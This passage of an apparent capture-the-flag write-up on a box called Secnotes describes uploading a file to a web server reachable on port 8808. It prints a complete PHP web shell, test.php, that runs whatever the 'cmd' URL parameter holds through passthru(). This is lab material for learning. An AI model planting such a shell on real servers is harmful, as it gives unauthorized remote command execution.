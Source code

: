 ![Img](/assets/posts_details/Secnotes/images/new-site.png "Img")

I didn't know what to do, and so after a while a php file magically appeared, I guess it was someone trying to root the box as well. That's what made realise that maybe I could access these files from port 8808. And so I uploaded the following php script that lets me pass commands to the machine and get the output:

*Content of test.php*

```php
<?php
header('Content-Type: text/plain');
$cmd=$_GET['cmd'];

$output = passthru($cmd);
echo $output;
?>
```

